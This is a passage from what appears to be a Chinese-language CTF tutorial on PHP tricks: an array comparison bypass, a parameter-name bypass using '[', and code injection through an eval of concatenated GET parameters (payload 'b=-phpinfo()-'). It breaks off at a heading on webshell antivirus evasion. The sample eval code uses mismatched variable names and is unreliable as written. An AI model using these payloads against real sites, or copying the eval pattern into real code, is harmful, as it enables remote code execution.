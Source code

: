 这里通过传入数组也可以让结果返回NULL，NULL再取反为TRUE

```
pass[]=Aabyss
```

### 8.9 PHP变量名和传参特性

#### 8.9.1 PHP的变量名特性

```php
if ($_GET['po_p.er'] === "w_ai_tan_ji") {
    echo "恭喜你传参成功";
}
else{
    die('你失败了');
}
```

这是最近CTF遇到的一道题，但 `$_GET['po_p.er']` 无法传入参数，这是因为PHP变量名应该只有数字、字母、下划线；而GET或POST方式传进去的变量名，会自动将以下内容自动转换为 `_`：

```php
空格 + . [
```

但其中有特殊情况：GET或POST方式传参时，变量名中的 `[` 会被替换为 `_`，重点是它后面的字符就不会被替换了，那可以构造以下Payload：

```php
po[p.er=w_ai_tan_ji
```

#### 8.9.2 PHP数字可与字符做运算

在PHP中，数字是可以和命令进行一些运算的，比如 `1-phpinfo()` 是可以成功执行phpinfo语句，同样的还有以下运算符：

```php
+ - * | %
```

那我们不妨看以下代码：

```php
$v1 = (String)$_GET['a'];
$v2 = (String)$_GET['b'];
$v3 = (String)$_GET['c'];
if(is_numeric(a) && is_numeric(c)){
    echo "$a$b$c = ".$code;
    $code =  eval("return $a$b$c;");
}
```

构造Payload如下：

```php
a=1&b=-phpinfo()-&c=2
```


# 三、Webshell免杀
